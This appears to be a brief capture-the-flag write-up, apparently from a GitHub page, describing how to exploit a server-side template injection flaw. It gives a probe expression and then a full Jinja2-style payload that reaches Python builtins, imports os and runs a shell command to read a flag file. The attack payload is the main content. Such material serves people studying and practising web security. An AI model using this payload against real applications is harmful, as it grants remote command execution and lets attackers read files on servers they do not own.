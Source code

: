 1. Test the input value for SSTI and notice the expression being evaluated `{{4*4}}[[5*5]]`
2. Send a SSTI payload to read the flag value `# {{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /home/flag.txt')['read']() }}`
